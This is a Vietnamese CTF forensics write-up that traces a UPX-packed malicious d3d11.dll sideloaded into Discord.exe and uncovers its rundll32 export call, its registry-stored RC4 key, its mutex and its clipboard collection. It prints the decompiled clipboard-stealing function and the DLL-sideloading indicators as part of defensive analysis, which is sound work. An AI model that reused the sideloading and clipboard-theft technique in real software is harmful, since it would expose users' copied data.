# Challenge Deception Strategy

## Task 1 - What is the name of the process that originated the malicious behavior?

### Phân tích đầu vào

Đầu vào challenge cung cấp 1 folder C chứa dữ liệu người dùng, 1 file pcap và 1 file PML. Với bộ artefact này, có thể dự đoán challenge liên quan đến một chuỗi kết nối C2: file PCAP giúp xác định lưu lượng gửi nhận với máy chủ bên ngoài, còn file PML cho biết tiến trình nào đã tạo kết nối và những file, DLL hoặc registry value mà tiến trình đó truy cập. Từ file PCAP vì lượng traffics http khá ít nên dễ thu hẹp hơn so với việc kiểm tra toàn bộ file trong thư mục C.



### Pivot từ lưu lượng HTTP

Thấy được lượng traffics http khác ít nên pivot từ đây trước. Sử dụng filter http.request



Chú ý hơn vào các traffics POST vì đây thường là những request gửi data được mã hóa từ máy user tới C2 server 

Trong đó các request tới endpoint /api/v9/experiments có header

```text
User-Agent: Discord/1.0
X-Client-Event-Source: desktop
Host: discord-cdn.com
Content-Type: application/octet-stream
```



User-Agent: Discord/1.0 cho thấy request đang tự nhận được tạo bởi ứng dụng Discord. Discord cũng xuất hiện trong dữ liệu người dùng được thu thập tại:

```text
C:\Users\admin\AppData\Local\Discord
```



### Kiểm tra các DLL trong thư mục Discord

Vậy Discord là ứng dụng đang được nghi ngờ, giờ cần kiểm tra xem các file DLL nào tồn tại trong thư mục cài đặt Discord, vì các module độc hại thường được giấu dưới dạng DLL có tên giống thành phần hợp lệ để được ứng dụng nạp vào.

```bash
find . -path '*/Users/admin/AppData/Local/Discord/*' -type f \( -iname '*.dll' \) -printf '%p\n' | sort
```



Kết quả cho thấy trong thư mục Discord tồn tại rất nhiều file DLL, vì vậy chưa thể chỉ dựa vào tên file để xác định module nào là độc hại.

Để phân biệt module bình thường và module bất thường, cần kiểm tra cấu trúc PE section của từng file DLL, sau đó so sánh để tìm file có cấu trúc khác biệt rõ rệt so với các module còn lại.

### Kiến thức ngoài lề - PE section

Theo tài liệu [PE Format của Microsoft](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format), một file PE được chia thành nhiều section, mỗi section dùng để lưu một loại nội dung khác nhau, chẳng hạn .text chứa mã thực thi, .data chứa dữ liệu đã khởi tạo, .rdata chứa dữ liệu chỉ đọc, .rsrc chứa resource và .reloc chứa thông tin relocation. File PE không bắt buộc phải có đầy đủ tất cả section trong bảng; tên và số lượng section có thể thay đổi tùy compiler, linker hoặc packer. Vì vậy, mục đích ở đây là so sánh các module trong cùng thư mục để tìm file có cấu trúc khác biệt rõ rệt.

Bảng tổng hợp các section PE thường gặp và chức năng 

| Section | Chức năng |
|---|---|
| `.text` | Chứa mã lệnh thực thi của chương trình |
| `.data` | Chứa dữ liệu đã được khởi tạo và có thể ghi |
| `.rdata` | Chứa dữ liệu đã khởi tạo nhưng chỉ đọc |
| `.bss` | Chứa dữ liệu chưa được khởi tạo |
| `.idata` | Chứa bảng import, mô tả các hàm và thư viện được PE sử dụng |
| `.edata` | Chứa bảng export, mô tả các hàm được PE cung cấp ra bên ngoài |
| `.pdata` | Chứa thông tin xử lý ngoại lệ |
| `.xdata` | Chứa dữ liệu bổ trợ cho việc xử lý ngoại lệ |
| `.rsrc` | Chứa resource như icon, dialog, version information hoặc dữ liệu nhúng |
| `.reloc` | Chứa thông tin relocation khi PE được nạp vào địa chỉ khác địa chỉ ưu tiên |
| `.tls` | Chứa dữ liệu Thread Local Storage |
| `.debug` | Chứa thông tin phục vụ debug |

### So sánh cấu trúc section của các DLL

Chạy comment để quét cấu trúc section các file dll tìm được

```bash
find ./C/C/Users/admin/AppData/Local/Discord -type f -iname '*.dll' -print0 |
while IFS= read -r -d '' file; do
    printf '%s\t' "$(basename "$file")"
    objdump -h "$file" 2>/dev/null |
    awk '$1 ~ /^[0-9]+$/ {printf "%s ", $2} END {print ""}'
done |
column -t -s $'\t'
```



Nhận thấy rõ các file DLL còn lại đều có các section thường gặp của PE như .text, .rdata, .data, .rsrc và .reloc; chỉ riêng d3d11.dll lại chỉ xuất hiện ba section UPX0, UPX1, UPX2, khác biệt hoàn toàn so với các module còn lại.

### Phân tích điểm bất thường của `d3d11.dll`

Điểm khác biết ở fiel d3d11.dll  là với các file dll thông thường 

Quá trình thường là:

```text
Source code
    ↓ compiler
Object files
    ↓ linker
DLL hoàn chỉnh chứa .text .rdata .data .rsrc .reloc ...
```

Còn với d3d11.dll

```text
DLL đã biên dịch bình thường
        ↓
UPX nén và đóng gói lại
        ↓
UPX0 UPX1 UPX2 + mã tự giải nén
```

Trong đó UPX là một executable packer, tức công cụ được chạy thêm sau bước biên dịch để giảm kích thước file và tạo stub tự giải nén khi chương trình được thực thi. File d3d11.dll có khả năng là malware, được attacker cố tình pack bằng UPX để che giấu mã và khiến quá trình phân tích tĩnh trở nên khó khăn hơn. Vậy khả năng cao Discord.exe là process đã khởi nguồn hành vi độc hại, còn d3d11.dll là malicious module được nạp vào process này.

### Đối chiếu với file PML

Tiếp tục đối chiếu đường dẫn của module trong file PML



Từ file PML thấy được Discord.exe thực sự nạp modul này

### Đáp án

```text
Discord.exe
```

---

## Task 2 - What is the Unix epoch timestamp when the malicious module was loaded?

### Lấy thời điểm module được nạp

Từ câu hỏi trước cũng xác nhận được d3d11.dll là malicious module, vậy từ cột Time of Day của sự kiện Load Image lấy được thời điểm module được nạp 

```text
6/27/2026 9:28:11.3190406
```



Chuyển sang Unix epoch:

```bash
date -d '6/27/2026 9:28:11.3190406' +%s
```

### Đáp án

```text
1782527291
```

---

## Task 3 - Which exported function of the malicious module was invoked later?

### Theo dõi các process xuất hiện sau sự kiện Load Image

Đã xác định được d3d11.dll là malicious module. Ở câu này đề hỏi exported function nào được gọi sau đó, vậy nên cần chú ý tới các process xuất hiện sau lần module được nạp vào Discord.exe.

Cụ thể, lúc:

```text
9:28:11.3190406 PM
```

Discord.exe với PID 7664 nạp:

```text
C:\Users\admin\AppData\Local\Discord\app-1.0.9243\d3d11.dll
```

Ngay sau đó, tại:

```text
9:28:11.619208 PM
```

xuất hiện process rundll32.exe với PID 8152 cũng nạp chính module d3d11.dll



### Kiểm tra command line của `rundll32.exe`

rundll32.exe là tiến trình Windows có thể được sử dụng để nạp DLL và gọi một hàm được export từ DLL đó. Vì vậy, cần kiểm tra command line của process PID 8152



thấy:

```text
rundll32.exe "C:\Users\admin\AppData\Local\Discord\app-1.0.9243\d3d11.dll",D3D11CreateDevice
```

Trong cú pháp của rundll32, phần nằm sau dấu phẩy là tên exported function được gọi:

```text
D3D11CreateDevice
```

### Đáp án

```text
D3D11CreateDevice
```

---

## Task 4 - What 16-byte registry value does the malware use to derive its RC4 key (00aa11bb...)?

### Unpack malicious module

Để tìm được giá trị Registry này, cần decompile malicious module d3d11.dll để hiểu cách malware đọc dữ liệu từ Registry và sử dụng dữ liệu đó trong quá trình tạo khóa RC4. Trước tiên, vì file d3d11.dll đang được pack bằng UPX nên cần unpack trước:

```bash
/usr/bin/upx-ucl -d \
  "./C/C/Users/admin/AppData/Local/Discord/app-1.0.9243/d3d11.dll" \
  -o d3d11_unpacked.dll
```

### Tìm các API Registry trong IDA

Sau đó mở d3d11_unpacked.dll bằng IDA và để chương trình hoàn tất quá trình phân tích. Do câu hỏi nhắc tới Registry và RC4, tôi tìm trong danh sách imports các API như:

```text
RegOpenKeyExW
RegQueryValueExW
```





Từ các cross-reference tới RegOpenKeyExW và RegSetValueExW, tới hàm WriteSessionToken.



### Xác định Registry key và value

Trong hàm này, malware mở key:

```text
HKEY_CURRENT_USER\Environment
```

sau đó ghi một value có tên:

```text
SessionToken
```

Tham số cuối của RegSetValueExW là:

```text
0x10
```

tương ứng với 16 byte. Vì vậy, đường dẫn đầy đủ của registry value cần tìm là:

```text
HKCU\Environment\SessionToken
```

### Đối chiếu với file PML

Quay lại với file PML, sử dụng filter 

```text
Path contains SessionToken Include
```



Registry value dài 16 byte là:

```text
1aa3a658ce2c4a4258983eba1853f08c
```

### Đáp án

```text
1aa3a658ce2c4a4258983eba1853f08c
```

---

## Task 5 - What is the name of the mutex created by the malware?

### Tìm cross-reference tới `CreateMutexW`

```text
Từ View -> Sub view -> Import
```

Khi xem hàm nào đang gọi CreateMutexW, thấy có cross-reference từ hàm D3D11CreateDevice. Đây cũng chính là exported function đã xác định ở câu 3.



Tiếp tục mở hàm D3D11CreateDevice, thấy tham số lpName được truyền vào là:

```text
Local\DiscordRuntimeCache
```



### Đáp án

```text
Local\DiscordRuntimeCache
```

---

## Task 6 - What is the MITRE ATT&CK technique ID for the collection method?

### Xác định các API thu thập Clipboard

Vẫn từ mục Import thấy ba API liên quan tới Windows Clipboard được đặt trong thư viện USER32

```text
OpenClipboard
GetClipboardData
CloseClipboard
```



Tiếp tục xem cross-reference để tìm hàm đang gọi ba API này

### Decompile hàm `GetClipboardText`

<details>
<summary><strong>Bấm để xem toàn bộ hàm GetClipboardText</strong></summary>

```cpp
__int64 __fastcall GetClipboardText[abi:cxx11](__int64 a1)
{
  HANDLE ClipboardData; // rax
  void *v3; // rsi
  const char *v4; // rax
  size_t v5; // rax
  const char *v6; // r9
  size_t v7; // r10
  _QWORD *v8; // rax
  __int64 v9; // rdx
  size_t v10; // rcx
  __int64 v12; // rax
  _QWORD *v13; // rcx
  unsigned int v14; // eax
  unsigned __int64 v15; // r8
  __int64 v16; // rdx
  char *v17; // rdi
  unsigned int v18; // eax
  unsigned int v19; // eax
  unsigned int v20; // edx
  __int64 v21; // r9
  const char *Src; // [rsp+20h] [rbp-68h]
  size_t Size; // [rsp+28h] [rbp-60h]
  size_t v24; // [rsp+38h] [rbp-50h] BYREF
  _QWORD *v25; // [rsp+40h] [rbp-48h] BYREF
  size_t v26; // [rsp+48h] [rbp-40h]
  _QWORD v27[7]; // [rsp+50h] [rbp-38h] BYREF

  if ( !OpenClipboard(nullptr) )
    goto LABEL_11;
  ClipboardData = GetClipboardData(1u);
  v3 = ClipboardData;
  if ( !ClipboardData )
  {
    CloseClipboard();
LABEL_11:
    *(_QWORD *)(a1 + 8) = 0;
    *(_QWORD *)a1 = a1 + 16;
    *(_BYTE *)(a1 + 16) = 0;
    return a1;
  }
  v4 = (const char *)GlobalLock(ClipboardData);
  v25 = v27;
  if ( !v4 )
  {
    v24 = 0;
    goto LABEL_7;
  }
  Src = v4;
  v5 = strlen(v4);
  v6 = Src;
  v24 = v5;
  v7 = v5;
  if ( v5 > 0xF )
  {
    Size = v5;
    v12 = std::string::_M_create(&v25, &v24, 0, Src);
    v6 = Src;
    v7 = Size;
    v25 = (_QWORD *)v12;
    v13 = (_QWORD *)v12;
    v27[0] = v24;
LABEL_13:
    memcpy_0(v13, v6, v7);
    goto LABEL_7;
  }
  if ( v5 != 1 )
  {
    if ( !v5 )
      goto LABEL_7;
    v13 = v27;
    goto LABEL_13;
  }
  LOBYTE(v27[0]) = *Src;
LABEL_7:
  v26 = v24;
  *((_BYTE *)v25 + v24) = 0;
  GlobalUnlock(v3);
  CloseClipboard();
  v8 = v25;
  v9 = a1 + 16;
  v10 = v26;
  *(_QWORD *)a1 = a1 + 16;
  if ( v8 == v27 )
  {
    v14 = v10 + 1;
    if ( (unsigned int)(v10 + 1) >= 8 )
    {
      *(_QWORD *)(a1 + 16) = v27[0];
      *(_QWORD *)(v9 + v14 - 8) = *(_QWORD *)((char *)&v27[-1] + v14);
      v15 = (a1 + 24) & 0xFFFFFFFFFFFFFFF8uLL;
      v16 = v9 - v15;
      v17 = (char *)v27 - v16;
      v18 = (v16 + v14) & 0xFFFFFFF8;
      if ( v18 >= 8 )
      {
        v19 = v18 & 0xFFFFFFF8;
        v20 = 0;
        do
        {
          v21 = v20;
          v20 += 8;
          *(_QWORD *)(v15 + v21) = *(_QWORD *)&v17[v21];
        }
        while ( v20 < v19 );
      }
    }
    else if ( (v14 & 4) != 0 )
    {
      *(_DWORD *)(a1 + 16) = v27[0];
      *(_DWORD *)(v9 + v14 - 4) = *(_DWORD *)((char *)&v26 + v14 + 4);
    }
    else if ( (_DWORD)v10 != -1 )
    {
      *(_BYTE *)(a1 + 16) = v27[0];
      if ( (v14 & 2) != 0 )
        *(_WORD *)(v9 + v14 - 2) = *(_WORD *)((char *)&v26 + v14 + 6);
    }
  }
  else
  {
    *(_QWORD *)a1 = v8;
    *(_QWORD *)(a1 + 16) = v27[0];
  }
  *(_QWORD *)(a1 + 8) = v10;
  return a1;
}
```

</details>

### Phân tích hành vi thu thập Clipboard

Phân tích 

Đầu tiên, hàm thử mở clipboard:

```cpp
if ( !OpenClipboard(nullptr) )
    goto LABEL_11;
```

OpenClipboard(nullptr) mở clipboard để tiến trình hiện tại có thể kiểm tra nội dung. Nếu không mở được, chương trình chuyển tới LABEL_11 và trả về một chuỗi rỗng. Theo tài liệu [OpenClipboard của Microsoft](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-openclipboard), hàm này mở clipboard để tiến trình có thể kiểm tra nội dung.



Sau khi mở thành công, malware lấy dữ liệu bằng:

```cpp
ClipboardData = GetClipboardData(1u);
v3 = ClipboardData;
```

Đối số `1u` tương ứng với clipboard format được mô tả trong [Standard Clipboard Formats của Microsoft](https://learn.microsoft.com/en-us/windows/win32/dataxchg/standard-clipboard-formats):

```text
CF_TEXT = 1
```



CF_TEXT biểu diễn văn bản ANSI kết thúc bằng ký tự null. Như vậy malware đang yêu cầu Windows trả về phần văn bản hiện có trong clipboard, không phải hình ảnh hay file

Nội dung sau đó được sao chép vào một std::string:

```cpp
memcpy_0(v13, v6, v7);
```

Cuối cùng, malware giải phóng quyền truy cập vùng nhớ và đóng clipboard:

```cpp
GlobalUnlock(v3);
CloseClipboard();
```

Như vậy flow chính của hàm là:

```text
OpenClipboard
      ↓
GetClipboardData(CF_TEXT)
      ↓
GlobalLock
      ↓
Đọc và sao chép văn bản clipboard
      ↓
GlobalUnlock
      ↓
CloseClipboard
```

Hàm này chứng minh malware thu thập nội dung văn bản mà người dùng đã sao chép vào clipboard

Khi tra cứu [MITRE ATT&CK Clipboard Data](https://attack.mitre.org/techniques/T1115/), hành vi thu thập dữ liệu mà người dùng sao chép giữa các ứng dụng thuộc kỹ thuật `Clipboard Data`, có mã `T1115`.

